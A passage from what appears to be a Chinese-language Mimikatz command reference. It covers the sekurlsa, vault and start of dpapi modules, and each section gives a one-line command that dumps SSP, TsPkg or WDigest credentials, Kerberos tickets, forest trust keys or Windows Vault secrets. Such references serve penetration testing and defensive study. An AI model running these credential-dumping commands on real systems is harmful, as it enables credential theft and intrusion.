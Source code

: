 ```

## ssp

列出Security Support Provider (SSP)凭据

```
mimikatz # sekurlsa::ssp
```

## tickets
列出属于目标服务器/工作站上所有认证用户的Kerberos ticket。与kerberos::list不同，sekurlsa使用内存读取，不受密钥输出的限制。Sekurlsa也可以访问其他会话（用户）的票据。

```
mimikatz # sekurlsa::tickets
```

## trust

检索林信任keys
```
mimikatz # sekurlsa::trust
```

## tspkg

列出 TsPkg凭据，这个凭证提供者用于终端服务器认证
```
mimikatz # sekurlsa::tspkg
```

## wdigest
列出了WDigest凭证。据微软称，WDigest.dll是在Windows XP操作系统中引入的。Digest认证协议旨在与超文本传输协议（HTTP）和简单认证安全层（SASL）交换使用
```
mimikatz # sekurlsa::wdigest
```


# Vault模块

Mimikatz的这个模块与Windows Credentials Vault进行交互。DPAPI是获得相同结果的一个更好的替代选项

## cred

枚举vault 里面的凭据

```
mimikatz # vault::cred

mimikatz # vault::cred /patch
```

## list

列出Windows Vault中保存的凭证，如计划任务、RDP、当前用户的Internet Explorer等

```
mimikatz # vault::list
```

# dpapi

## blob
> describes a DPAPI blob and unprotects/decrypts it with API or Masterkey

```